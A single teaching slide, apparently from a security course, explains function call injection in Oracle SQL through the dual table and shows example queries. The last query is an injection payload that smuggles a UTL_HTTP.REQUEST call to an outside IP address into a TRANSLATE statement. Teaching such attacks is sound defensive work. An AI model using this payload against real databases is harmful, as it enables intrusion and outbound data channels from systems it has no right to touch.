

# Function Call Injection
A database function or operating system function call is inserted into a vulnerable SQL statement to manipulate the data or make a privileged system call
The dual table is used in the FROM clause of SQL in Oracle when a user needs to run SQL that does not logically have a table name.
 SELECT SYSDATE FROM dual;
 SELECT TRANSLATE (‘user input’, ‘from_string’, ‘to_string’) FROM dual;
 SELECT TRANSLATE (“||UTL_HTTP.REQUEST (‘http://129.107.2.1/’)||”, ‘98765432’, ‘9876’) FROM dual;
45